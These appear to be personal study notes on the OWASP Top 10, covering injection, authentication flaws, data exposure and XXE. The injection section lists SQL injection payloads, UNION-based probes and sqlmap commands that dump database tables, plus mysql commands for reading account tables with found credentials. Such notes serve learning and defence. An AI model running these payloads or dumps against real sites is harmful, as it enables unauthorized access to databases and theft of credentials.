 # OWASP Top 10 (Open Web Application Security Project)

1. Injection
2. Broken Authentication
3. Sensitive Data Exposure
4. XML Ecternal Entity
5. Broken Access Control
6. Security Misconfiguration
7. Cross-site Scripting
8. Insecure Deserialization
9. Components with Known Vulnerabilities
10. Insufficient Logging & Monitoring

## 1. Injection

SQL Injection
* occurs when user controlled input is passed to SQL queries
* can pass in SQL queries to manipulate the outcome of queries
* access, modify, delete info in database

Command Injection
* occurs when user input is passed to system commands
* can execute arbitrary system commands (whoami, lsb_release, etc.)
* allow to gain access to users system

Mitigate
* use allow / whitelist = only accepted input is processed
* strip input = if input contains dangerous characters, they are removed before processing



```
Basic statement
> SELECT name, description FROM products WHERE id=9;

Comments done either with # or --

#10.124.211.96/newsdetails.php?id=26 or 2=2; -- -
#10.124.211.96/newsdetails.php?id=26 UNION SELECT 'null1'; -- -
#' or 1=1; -- -  | try this in login form


#SELECT description FROM items WHERE id=' ' UNION SELECT user (); -- -';


SQLMap -tool

#sqlmap -u <URL> -p <injection parameters> [options]
#sqlmap -u 'http://vitim.site/view.php?id=1141' -p id --technique=U 
	-uses UNION based SQLi

#sqlmap -u 'http://victim.site/view.php?id=1141' --tables
	-prints all the tables

#sqlmap -u 'http://victim.site/view.php?id=1141' --current-db <name> --columns
#sqlmap -u 'http://victim.site/view.php?id=1141' --current-db <name> --dump


-if you find credentials to test against SQL server
#mysql -u <username> -p<password> -h <ip>
#use <username>_accounts;
#show tables;
#select * from accounts;

```

## 2. Broken Authentication

Common flaws in authentication mechanisms
* brute force attacks
* use of weak credentials
* weak session cookies
  * if predictable values

Mitigate
* enforce strong password policy
* automatic lockout after X attempts
* Multi Factor Authentication
* sanitize the input(username & password) = can't create new user "<space>admin"


## 3. Sensitive Data Exposure
* data directly linked to customer, usernames, passwords
* can be accidental leak or MITM

## 4. XML Ecternal Entity
* XXE
* abuses features of XML parsers or data
* allows to interact with any backend or external systemss that the app itself can access
* can also cause DoS or Server-Side Request Forgery (SSRF)
* may also enable port scanning and lead to RCE
* in-band XXE = receive an immediate response to the XXE payload
* out-of-band XXE (OOB-XXE / blind XXE) = no immediate response from we app, have to reflect the output to some other file on their own server

